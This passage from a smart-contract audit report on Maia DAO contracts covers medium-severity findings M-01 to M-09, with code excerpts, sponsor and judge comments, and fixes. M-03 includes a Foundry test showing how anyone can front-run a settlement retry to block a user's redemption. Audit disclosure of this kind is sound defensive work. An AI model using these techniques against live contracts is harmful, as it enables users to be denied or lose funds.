    function decrementGaugesBoostIndexed(uint256 boost, uint256 offset, uint256 num) public {
        address[] memory gaugeList = _userGauges[msg.sender].values();

        uint256 length = gaugeList.length;
        for (uint256 i = 0; i < num && i < length;) {
            address gauge = gaugeList[offset + i];

            GaugeState storage gaugeState = getUserGaugeBoost[msg.sender][gauge];

            if (_deprecatedGauges.contains(gauge) || boost >= gaugeState.userGaugeBoost) {
                require(_userGauges[msg.sender].remove(gauge)); // Remove from set. Should never fail.
                delete getUserGaugeBoost[msg.sender][gauge];

                emit Detach(msg.sender, gauge);
            } else {
                gaugeState.userGaugeBoost -= boost.toUint128();

                emit DecrementUserGaugeBoost(msg.sender, gauge, gaugeState.userGaugeBoost);
            }

            unchecked {
                i++;
            }
        }
    }
```

### Proof of Concept

The following steps can occur for the described scenario:

1. Alice's 1e18 boost are attached to a gauge.
2. Such gauge becomes deprecated.
3. Alice calls the `ERC20Boost.decrementGaugeBoost` function to decrement 0.5e18 boost from such deprecated gauge.
4. Alice calls the `ERC20Boost.decrementGaugeBoost` function to decrement 0.2e18 boost from such deprecated gauge.
5. Alice still has 0.3e18 boost from such deprecated gauge so they can continue utilize and decrement boost from such deprecated gauge in the future.

### Tools Used

VSCode

### Recommended Mitigation Steps

The `ERC20Boost.decrementGaugeBoost` function can be updated to execute `require(_userGauges[msg.sender].remove(gauge))` and `delete getUserGaugeBoost[msg.sender][gauge]` if `_deprecatedGauges.contains(gauge) || boost >= gaugeState.userGaugeBoost` is true, which is similar to the `ERC20Boost.decrementGaugesBoostIndexed` function.

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/904#issuecomment-1632539247)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/904#issuecomment-1708796097):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/904).

***

## [[M-02] Slippage controls for calling `bHermes` contract's `ERC4626DepositOnly.deposit` and `ERC4626DepositOnly.mint` functions are missing](https://github.com/code-423n4/2023-05-maia-findings/issues/901)
*Submitted by [rbserver](https://github.com/code-423n4/2023-05-maia-findings/issues/901)*

[EIPS](<https://eips.ethereum.org/EIPS/eip-4626#security-considerations>) mentions that "if implementors intend to support EOA account access directly, they should consider adding an additional function call for `deposit`/`mint`/`withdraw`/`redeem` with the means to accommodate slippage loss or unexpected deposit/withdrawal limits, since they have no other means to revert the transaction if the exact output amount is not achieved."

Using the `bHermes` contract that inherits the `ERC4626DepositOnly` contract, EOAs can call the `ERC4626DepositOnly.deposit` and `ERC4626DepositOnly.mint` functions directly. However, because no slippage controls can be specified when calling these functions, these function's `shares` and `assets` outputs can be less than expected to these EOAs.

<https://github.com/code-423n4/2023-05-maia/blob/53c7fe9d5e55754960eafe936b6cb592773d614c/src/erc-4626/ERC4626DepositOnly.sol#L32-L44>

```solidity
    function deposit(uint256 assets, address receiver) public virtual returns (uint256 shares) {
        // Check for rounding error since we round down in previewDeposit.
        require((shares = previewDeposit(assets)) != 0, "ZERO_SHARES");

        // Need to transfer before minting or ERC777s could reenter.
        address(asset).safeTransferFrom(msg.sender, address(this), assets);

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);

        afterDeposit(assets, shares);
    }
```

<https://github.com/code-423n4/2023-05-maia/blob/53c7fe9d5e55754960eafe936b6cb592773d614c/src/erc-4626/ERC4626DepositOnly.sol#L47-L58>

```solidity
    function mint(uint256 shares, address receiver) public virtual returns (uint256 assets) {
        assets = previewMint(shares); // No need to check for rounding error, previewMint rounds up.

        // Need to transfer before minting or ERC777s could reenter.
        address(asset).safeTransferFrom(msg.sender, address(this), assets);

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);

        afterDeposit(assets, shares);
    }
```

In contrast, the `UlyssesRouter.addLiquidity` function does control the slippage by including the `minOutput` input and executing `amount = ulysses.deposit(amount, msg.sender)` and `if (amount < minOutput) revert OutputTooLow()`. Although such slippage control for an ERC-4626 vault exists in this protocol's other contract, it does not exist in the `bHermes` contract. As a result, EOAs can mint less `bHermes` shares than expected when calling the `bHermes` contract's `ERC4626DepositOnly.deposit` function and send and burn more `HERMES` tokens than expected when calling the `bHermes` contract's `ERC4626DepositOnly.mint` function.

<https://github.com/code-423n4/2023-05-maia/blob/53c7fe9d5e55754960eafe936b6cb592773d614c/src/ulysses-amm/UlyssesRouter.sol#L49-L56>

```solidity
    function addLiquidity(uint256 amount, uint256 minOutput, uint256 poolId) external returns (uint256) {
        UlyssesPool ulysses = getUlyssesLP(poolId);

        amount = ulysses.deposit(amount, msg.sender);

        if (amount < minOutput) revert OutputTooLow();
        return amount;
    }
```

### Proof of Concept

The following steps can occur for the described scenario involving the `bHermes` contract's `ERC4626DepositOnly.mint` function. The case involving the `bHermes` contract's `ERC4626DepositOnly.deposit` function is similar to this:

1. Alice wants to mint 1e18 `bHermes` shares in exchange for sending and burning 1e18 `HERMES` tokens.
2. Alice calls the `bHermes` contract's `ERC4626DepositOnly.mint` function with the `shares` input being 1e18.
3. Yet, such `ERC4626DepositOnly.mint` function call causes 1.2e18 `HERMES` tokens to be transferred from Alice.
4. Alice unexpectedly sends, burns, and loses 0.2e18 more `HERMES` tokens than expected for minting 1e18 `bHermes` shares.

### Tools Used

VSCode

### Recommended Mitigation Steps

The `bHermes` contract can be updated to include a `deposit` function that allows `msg.sender` to specify the minimum `bHermes` shares to be minted for calling the corresponding `ERC4626DepositOnly.deposit` function; calling such `bHermes.deposit` function should revert if the corresponding `ERC4626DepositOnly.deposit` function's `shares` output is less than the specified minimum `bHermes` shares to be minted. Similarly, the `bHermes` contract can also include a `mint` function that allows `msg.sender` to specify the maximum `HERMES` tokens to be sent for calling the corresponding `ERC4626DepositOnly.mint` function; calling such `bHermes.mint` function should revert if the corresponding `ERC4626DepositOnly.mint` function's `assets` output is more than the specified maximum `HERMES` tokens to be sent.

**[0xLightt (Maia) acknowledged](https://github.com/code-423n4/2023-05-maia-findings/issues/901#issuecomment-1633189718)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/901#issuecomment-1655667861):**
 > The reason this is not being addressed directly in this contract is we prefer to use a periphery contract like a generalized ERC4626 router to account for slippage and deadlines.

***

## [[M-03] `RootBridgeAgent.redeemSettlement` can be front-run using `RootBridgeAgent.retrySettlement`, causing redeem to DoS](https://github.com/code-423n4/2023-05-maia-findings/issues/869)
*Submitted by [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/869), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/301)*

Since [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) can be called by **anyone** for **any** settlement, a malicious actor can front-run a user trying to redeem their failed settlement via [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) by calling [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) with `_remoteExecutionGas = 0`, in order to make sure that this settlement will also fail in the future.

As a consequence, the user's subsequent call to [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) [will revert](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L260-L261) (DoS) because the settlement was [already marked](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L577) with `SettlementStatus.Success` during the malicious actor's call to [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252). Therefore, the user is unable to redeem their assets.

### Proof of Concept

The following PoC modifies an existing test case to confirm the above claims resulting in:

- The settlement is being marked with `SettlementStatus.Success`.
- DoS of [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) is the method for this settlement.
- The user is not able to redeem their assets.

Just apply the *diff* below and run the test with `forge test --match-test testRedeemSettlement`:

```diff
diff --git a/test/ulysses-omnichain/RootTest.t.sol b/test/ulysses-omnichain/RootTest.t.sol
index ea88453..ccd7ad2 100644
--- a/test/ulysses-omnichain/RootTest.t.sol
+++ b/test/ulysses-omnichain/RootTest.t.sol
@@ -1299,14 +1299,13 @@ contract RootTest is DSTestPlus {
         hevm.deal(_user, 1 ether);
 
         //Retry Settlement
-        multicallBridgeAgent.retrySettlement{value: 1 ether}(settlementNonce, 0.5 ether);
 
         settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
 
         require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");
     }
 
-    function testRedeemSettlement() public {
+    function testRedeemSettlementFrontRunDoS() public {
         //Set up
         testAddLocalTokenArbitrum();
 
@@ -1389,15 +1388,25 @@ contract RootTest is DSTestPlus {
 
         require(settlement.status == SettlementStatus.Failed, "Settlement status should be failed.");
 
-        //Retry Settlement
-        multicallBridgeAgent.redeemSettlement(settlementNonce);
+        //Front-run redeem settlement with '_remoteExecutionGas = 0'
+        address _malice = address(0x1234);
+        hevm.deal(_malice, 1 ether);
+        hevm.prank(_malice);
+        multicallBridgeAgent.retrySettlement{value: 1 ether}(settlementNonce, 0 ether);
 
         settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
+        require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");
 
-        require(settlement.owner == address(0), "Settlement should cease to exist.");
+        //Redeem settlement DoS cause settlement is marked as success
+        hevm.expectRevert(abi.encodeWithSignature("SettlementRedeemUnavailable()"));
+        multicallBridgeAgent.redeemSettlement(settlementNonce);
+
+        settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
+        require(settlement.owner != address(0), "Settlement should still exist.");
 
+        //User couldn't redeem funds
         require(
-            MockERC20(newAvaxAssetGlobalAddress).balanceOf(_user) == 150 ether, "Settlement should have been redeemed"
+            MockERC20(newAvaxAssetGlobalAddress).balanceOf(_user) == 0 ether, "Settlement should not have been redeemed"
         );
     }
 
```

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

I suggest to only allow calls to [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) by the settlement owner:

```diff
diff --git a/src/ulysses-omnichain/RootBridgeAgent.sol b/src/ulysses-omnichain/RootBridgeAgent.sol
index 34f4286..4acef39 100644
--- a/src/ulysses-omnichain/RootBridgeAgent.sol
+++ b/src/ulysses-omnichain/RootBridgeAgent.sol
@@ -242,6 +242,14 @@ contract RootBridgeAgent is IRootBridgeAgent {
 
     /// @inheritdoc IRootBridgeAgent
     function retrySettlement(uint32 _settlementNonce, uint128 _remoteExecutionGas) external payable {
+        //Get deposit owner.
+        address depositOwner = getSettlement[_settlementNonce].owner;
+        if (
+            msg.sender != depositOwner && msg.sender != address(IPort(localPortAddress).getUserAccount(depositOwner))
+        ) {
+            revert NotSettlementOwner();
+        }
+
         //Update User Gas available.
         if (initialGas == 0) {
             userFeeInfo.depositedGas = uint128(msg.value);

```

### Assessed type

DoS

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/869#issuecomment-1632814004):**
 > Despite the user being still entitled to their assets and able to call retry with gas and redeem, this would allow anyone to grieve a user's failed settlement, causing the user to spend unnecessary time/gas. If the economic incentives exist, this could be done repeatedly. As this is completely undesired, we will add a settlement owner verification to `retrySettlement` function.

**[peakbolt (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/869#issuecomment-1654501484):**
 > Front-running is not possible on the root chain (Arbitrum), as there is no `mempool` and the Arbitrum Sequencer orders transactions on a first come, first served basis. Refer to Arbitrum docs at https://developer.arbitrum.io/learn-more/faq#will-transactions-with-a-higher-gas-price-bid-be-confirmed-first

**[0xTheC0der (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/869#issuecomment-1654591091):**
 > I partially agree; however, the affected contract is part of the Ulysses Omnichain system and therefore, not limited to Arbitrum.  
 >
> Furthermore, due to the lack of access control of `retrySettlement`, this can also accidentally happen when a user calls it with the wrong settlement nonce and therefore, doesn't necessarily need a `mempool`. Irrespective of a malicious or good intention, a user should not be able to cause DoS for another user.

**[peakbolt (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/869#issuecomment-1657131274):**
 > Thanks for the clarification. Agree with the point that it extends beyond Arbitrum. 

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/869#issuecomment-1708800159):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/183-492-688-869).

***

## [[M-04] Many `create` methods are suspicious of the reorg attack](https://github.com/code-423n4/2023-05-maia-findings/issues/861)
*Submitted by [Breeje](https://github.com/code-423n4/2023-05-maia-findings/issues/861)*

### Proof of Concept

There are many instances of this; but to understand things better, take the example of the `createTalosV3Strategy` method.

The `createTalosV3Strategy` function deploys a new `TalosStrategyStaked` contract using the `create` method, where the address derivation depends only on the arguments passed.

At the same time, some of the chains like Arbitrum and Polygon are suspicious of the reorg attack.

```solidity
File: TalosStrategyStaked.sol

  function createTalosV3Strategy(
        IUniswapV3Pool pool,
        ITalosOptimizer optimizer,
        BoostAggregator boostAggregator,
        address strategyManager,
        FlywheelCoreInstant flywheel,
        address owner
    ) public returns (TalosBaseStrategy) {
        return new TalosStrategyStaked( // @audit-issue Reorg Attack
                pool,
                optimizer,
                boostAggregator,
                strategyManager,
                flywheel,
                owner
            );
    }

```

[Link to Code](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyStaked.sol#L28)

Even more, the reorg can be a couple of minutes long. So, it is quite enough to create the `TalosStrategyStaked` and transfer funds to that address using the `deposit` method; especially when someone uses a script and not doing it by hand.

Optimistic rollups (Optimism/Arbitrum) are also suspect to reorgs. If someone finds a fraud, the blocks will be reverted, even though the user receives a confirmation.

The same issue can affect factory contracts in Ulysses omnichain contracts as well, with more severe consequences.

You can refer to this issue previously reported, [here](https://code4rena.com/reports/2023-04-frankencoin#m-14-re-org-attack-in-factory), to have a better understanding of it.

### Impact

Exploits involving the stealing of funds.

### Tools Used

VS Code

### Recommended Mitigation Steps

Deploy such contracts via `create2` with `salt`.

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/861#issuecomment-1640083554)**

**[T1MOH (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/861#issuecomment-1651485343):**
 > In my opinion, low severity is more appropriate as there is no loss of funds when reorg attack happens.
 >
> >So, it is quite enough to create the `TalosStrategyStaked` and transfer funds to that address using the `deposit` method; especially when someone uses a script and not doing it by hand.
> 
> But in the described scenario, there is no loss of funds of users, as they deposit to `TalosStrategyStaked` and receive shares in exchange. So they don't lose funds, because anytime they can exchange shares back. The report lacks severe impact and is more of an informational type.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/861#issuecomment-1708800852):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/861)

***

## [[M-05] Replenishing gas is missing in `_payFallbackGas` of `RootBridgeAgent`](https://github.com/code-423n4/2023-05-maia-findings/issues/786)
*Submitted by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/786), also found by peakbolt ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/386), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/265))*

The call `_payFallbackGas` is used to update the user deposit with the amount of gas needed to pay for the `fallback` function execution. However, it doesn't replenish gas. In other words, it doesn't deposit the `executionGasSpent` into `AnycallConfig` execution budget.

### Proof of Concept

Here is the method body:

```solidity
	function _payFallbackGas(uint32 _settlementNonce, uint256 _initialGas) internal virtual {
		//Save gasleft
		uint256 gasLeft = gasleft();

		//Get Branch Environment Execution Cost
		uint256 minExecCost = tx.gasprice * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);

		//Check if sufficient balance
		if (minExecCost > getSettlement[_settlementNonce].gasToBridgeOut) {
			_forceRevert();
			return;
		}

		//Update user deposit reverts if not enough gas
		getSettlement[_settlementNonce].gasToBridgeOut -= minExecCost.toUint128();
	}
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L831-L846>

As you can see, there is no gas replenishing call.

`_payFallbackGas` is called at the end in `anyFallback` after reopening a user's settlement.

```solidity
	function anyFallback(bytes calldata data)
		external
		virtual
		requiresExecutor
		returns (bool success, bytes memory result)
	{
		//Get Initial Gas Checkpoint
		uint256 _initialGas = gasleft();

		//Get fromChain
		(, uint256 _fromChainId) = _getContext();
		uint24 fromChainId = _fromChainId.toUint24();

		//Save Flag
		bytes1 flag = data[0];

		//Deposit nonce
		uint32 _settlementNonce;

		/// SETTLEMENT FLAG: 1 (single asset settlement)
		if (flag == 0x00) {
			_settlementNonce = uint32(bytes4(data[PARAMS_START_SIGNED:25]));
			_reopenSettlemment(_settlementNonce);

			/// SETTLEMENT FLAG: 1 (single asset settlement)
		} else if (flag == 0x01) {
			_settlementNonce = uint32(bytes4(data[PARAMS_START_SIGNED:25]));
			_reopenSettlemment(_settlementNonce);

			/// SETTLEMENT FLAG: 2 (multiple asset settlement)
		} else if (flag == 0x02) {
			_settlementNonce = uint32(bytes4(data[22:26]));
			_reopenSettlemment(_settlementNonce);
		}
		emit LogCalloutFail(flag, data, fromChainId);

		_payFallbackGas(_settlementNonce, _initialGas);

		return (true, "");
	}
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L1177>

### Recommended Mitigation Steps

Withdraw Gas from he port, unwrap it, then call `_replenishGas` to top up the execution budget.

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/786#issuecomment-1632885521)**

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/786#issuecomment-1655898791):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[M-06] `migratePartnerVault()` in the first vault  does not work properly](https://github.com/code-423n4/2023-05-maia-findings/issues/739)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/739)*

In the `migratePartnerVault()` method, if `vaultId == 0` it means it's an illegal address; but the Id of the vaults starts from 0, resulting in the first vault being mistaken as an illegal vault address.

### Proof of Concept

In the `migratePartnerVault()` method, it will determine whether `newPartnerVault` is legal or not, by `vaultId!=0` of the vault.

The code is as follows:

```solidity
    function migratePartnerVault(address newPartnerVault) external onlyOwner {
@>      if (factory.vaultIds(IBaseVault(newPartnerVault)) == 0) revert UnrecognizedVault();

        address oldPartnerVault = partnerVault;
        if (oldPartnerVault != address(0)) IBaseVault(oldPartnerVault).clearAll();
        bHermesToken.claimOutstanding();
```

But when `factory` adds to the vault, the index starts from 0, so the Id of the first vault is 0,

`PartnerManagerFactory.addVault()`:

```solidity
contract PartnerManagerFactory is Ownable, IPartnerManagerFactory {
    constructor(ERC20 _bHermes, address _owner) {
        _initializeOwner(_owner);
        bHermes = _bHermes;
        partners.push(PartnerManager(address(0)));
    }

    function addVault(IBaseVault newVault) external onlyOwner {
@>      uint256 id = vaults.length;
        vaults.push(newVault);
        vaultIds[newVault] == id;

        emit AddedVault(newVault, id);
    }
```

The id of the first vault starts from `0`, because in the `constructor`, it does not add `address(0)` to the vaults,  similar to `partners`.

So `migratePartnerVault()` can't be processed for the first vault.

### Recommended Mitigation Steps

Similar to `partners`, in the `constructor` method, a vault with `address(0)` is added by default.

```solidity
contract PartnerManagerFactory is Ownable, IPartnerManagerFactory {
    constructor(ERC20 _bHermes, address _owner) {
        _initializeOwner(_owner);
        bHermes = _bHermes;
        partners.push(PartnerManager(address(0)));
+       vaults.push(IBaseVault(address(0)));
    }
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/739#issuecomment-1632972067)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/739#issuecomment-1708802645):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/739).

***

## [[M-07] `vMaia` Lacks of override in `forfeitBoost`](https://github.com/code-423n4/2023-05-maia-findings/issues/738)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/738)*

Lack of override in `forfeitBoost`. When needed, `forfeit` will `underflow`.

### Proof of Concept

In `vMaia`, override the `claimBoost()` code to be empty to avoid failing.

The code and comments are as follows:

```solidity
    /// @dev Boost can't be claimed; does not fail. It is all used by the partner vault.
    function claimBoost(uint256 amount) public override {}
```

But it does not override the corresponding `forfeitBoost()`. This will still reduce `userClaimedBoost` when `forfeit()` is needed, resulting in `underflow`.

`UtilityManager.forfeitBoost()`:

```solidity
    function forfeitBoost(uint256 amount) public virtual {
        if (amount == 0) return;
@>      userClaimedBoost[msg.sender] -= amount;
        address(gaugeBoost).safeTransferFrom(msg.sender, address(this), amount);

        emit ForfeitBoost(msg.sender, amount);
    }
```

You should also override `forfeitBoost()` and turn it into an empty code to avoid failure when you need to use `forfeit`.

### Recommended Mitigation Steps

```solidity
contract vMaia is ERC4626PartnerManager {

+   /// @dev Boost can't be forfeit; does not fail.
+   function forfeitBoost(uint256 amount) public override {}

...
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/738#issuecomment-1632968727)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/738#issuecomment-1708803777):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/738).

***

## [[M-08] `updatePeriod()` has less minting of `HERMES`](https://github.com/code-423n4/2023-05-maia-findings/issues/737)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/737), also found by [chaduke](https://github.com/code-423n4/2023-05-maia-findings/issues/32)*

If there is a `weekly` that has not been taken, it may result in an insufficient minting of `HERMES`.

### Proof of Concept

In `updatePeriod()`, mint new `HERMES` every week with a certain percentage of `weeklyEmission`.

The code is as follows:

```solidity
    function updatePeriod() public returns (uint256) {
        uint256 _period = activePeriod;
        // only trigger if new week
        if (block.timestamp >= _period + week && initializer == address(0)) {
            _period = (block.timestamp / week) * week;
            activePeriod = _period;
            uint256 newWeeklyEmission = weeklyEmission();
@>          weekly += newWeeklyEmission;
            uint256 _circulatingSupply = circulatingSupply();

            uint256 _growth = calculateGrowth(newWeeklyEmission);
            uint256 _required = _growth + newWeeklyEmission;
            /// @dev share of newWeeklyEmission emissions sent to DAO.
            uint256 share = (_required * daoShare) / base;
            _required += share;
            uint256 _balanceOf = underlying.balanceOf(address(this));          
@>          if (_balanceOf < _required) {
                HERMES(underlying).mint(address(this), _required - _balanceOf);
            }

            underlying.safeTransfer(address(vault), _growth);

            if (dao != address(0)) underlying.safeTransfer(dao, share);

            emit Mint(msg.sender, newWeeklyEmission, _circulatingSupply, _growth, share);

            /// @dev queue rewards for the cycle, anyone can call if fails
            ///      queueRewardsForCycle will call this function but won't enter
            ///      here because activePeriod was updated
            try flywheelGaugeRewards.queueRewardsForCycle() {} catch {}
        }
        return _period;
    }
```

The above code will first determine if the balance of the current contract is less than `_required`. If it is less, then mint new `HERMES`, so that there will be enough `HERMES` for the distribution.

But there is a problem. The current balance of the contract may contain the last `weekly` `HERMES`, that  `flywheelGaugeRewards` has not yet taken (e.g. last week's allocation of `weeklyEmission`).

Because the `gaugeCycle` of `flywheelGaugeRewards` may be greater than one week, it is possible that the last `weekly` `HERMES` has not yet been taken.

So we can't use the current balance to compare with `_required` directly, we need to consider the `weekly` staying in the contract if it hasn't been taken, to avoid not having enough balance when `flywheelGaugeRewards` comes to take `weekly`.

### Recommended Mitigation Steps

```solidity
    function updatePeriod() public returns (uint256) {
        uint256 _period = activePeriod;
        // only trigger if new week
        if (block.timestamp >= _period + week && initializer == address(0)) {
            _period = (block.timestamp / week) * week;
            activePeriod = _period;
            uint256 newWeeklyEmission = weeklyEmission();
            weekly += newWeeklyEmission;
            uint256 _circulatingSupply = circulatingSupply();

            uint256 _growth = calculateGrowth(newWeeklyEmission);
            uint256 _required = _growth + newWeeklyEmission;
            /// @dev share of newWeeklyEmission emissions sent to DAO.
            uint256 share = (_required * daoShare) / base;
            _required += share;
            uint256 _balanceOf = underlying.balanceOf(address(this));          
-           if (_balanceOf < _required) {
+           if (_balanceOf < weekly + _growth + share ) {
-              HERMES(underlying).mint(address(this), _required - _balanceOf);
+              HERMES(underlying).mint(address(this),weekly + _growth + share - _balanceOf);
            }

            underlying.safeTransfer(address(vault), _growth);

            if (dao != address(0)) underlying.safeTransfer(dao, share);

            emit Mint(msg.sender, newWeeklyEmission, _circulatingSupply, _growth, share);

            /// @dev queue rewards for the cycle, anyone can call if fails
            ///      queueRewardsForCycle will call this function but won't enter
            ///      here because activePeriod was updated
            try flywheelGaugeRewards.queueRewardsForCycle() {} catch {}
        }
        return _period;
    }
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/737#issuecomment-1640123826):**

**[deadrxsezzz (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/737#issuecomment-1652526189):**
 > > Because the `gaugeCycle` of `flywheelGaugeRewards` may be greater than one week.
> 
> The warden describes a possible vulnerability if a `gauge` has a cycle length longer than a week. This is incorrect. `gaugeCycle` refers to the `block.timestamp` of the current cycle. I suppose the warden refers to `gaugeCycleLength`, which is an immutable set to a week.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/737#issuecomment-1652553968):**
 > It might make sense to be a low/QA, because it does require a rare edge case for this to happen; i.e. no one queuing rewards for any `gauge` during 1 week and have a large amount of gauges. Everyone in the protocol is economically incentivized to queue rewards asap every week: team, LPs, voters, etc.
> 
> But it is a valid issue. If this were to happen and `queueRewardsForCycle` revert, (for example, because the gauge's array is too large), it would mean that `weekly` could be larger than `_required`. So not enough tokens would be minted and `getRewards` would revert because the minter contract wouldn't have enough balance to transfer the desired tokens.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/737#issuecomment-1653234537):**
 > Will leave as Med, as rare edge cases are still in-scope for this severity level and theoretical monetary loss is involved.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/737#issuecomment-1708804312):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/104-737).

***

## [[M-09] `_decrementWeightUntilFree()` has a possible infinite loop](https://github.com/code-423n4/2023-05-maia-findings/issues/735)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/735), also found by [tsvetanovv](https://github.com/code-423n4/2023-05-maia-findings/issues/717), [SpicyMeatball](https://github.com/code-423n4/2023-05-maia-findings/issues/260), and [Audinarey](https://github.com/code-423n4/2023-05-maia-findings/issues/353)*

### Proof of Concept

In the loop of the `_decrementWeightUntilFree()` method, the position of `i++` is wrong, which may lead to an infinite loop.

```solidity
    function _decrementWeightUntilFree(address user, uint256 weight) internal nonReentrant {
...
        for (uint256 i = 0; i < size && (userFreeWeight + totalFreed) < weight;) {
            address gauge = gaugeList[i];
            uint112 userGaugeWeight = getUserGaugeWeight[user][gauge];
            if (userGaugeWeight != 0) {
                // If the gauge is live (not deprecated), include its weight in the total to remove
                if (!_deprecatedGauges.contains(gauge)) {
                    totalFreed += userGaugeWeight;
                }
                userFreed += userGaugeWeight;
                _decrementGaugeWeight(user, gauge, userGaugeWeight, currentCycle);
                unchecked {
@>                  i++;
                }
            }
        }
```

In the above code, when `userGaugeWeight == 0`, `i` is not incremented, resulting in a infinite loop. The current protocol does not restrict `getUserGaugeWeight[user][gauge] == 0`.

### Recommended Mitigation Steps

```solidity
    function _decrementWeightUntilFree(address user, uint256 weight) internal nonReentrant {
...
        for (uint256 i = 0; i < size && (userFreeWeight + totalFreed) < weight;) {
            address gauge = gaugeList[i];
            uint112 userGaugeWeight = getUserGaugeWeight[user][gauge];
            if (userGaugeWeight != 0) {
                // If the gauge is live (not deprecated), include its weight in the total to remove
                if (!_deprecatedGauges.contains(gauge)) {
                    totalFreed += userGaugeWeight;
                }
                userFreed += userGaugeWeight;
                _decrementGaugeWeight(user, gauge, userGaugeWeight, currentCycle);
-               unchecked {
-                  i++;
-               }
            }
+           unchecked {
+             i++;
+           }            
        }
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/735#issuecomment-1655670401)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/735#issuecomment-1708804582):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/735).

***

## [[M-10] The user is enforced to overpay for the `fallback` gas when calling `retryDeposit`](https://github.com/code-423n4/2023-05-maia-findings/issues/710)
*Submitted by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/710), also found by [Evo](https://github.com/code-423n4/2023-05-maia-findings/issues/718) and [zzebra83](https://github.com/code-423n4/2023-05-maia-findings/issues/397)*

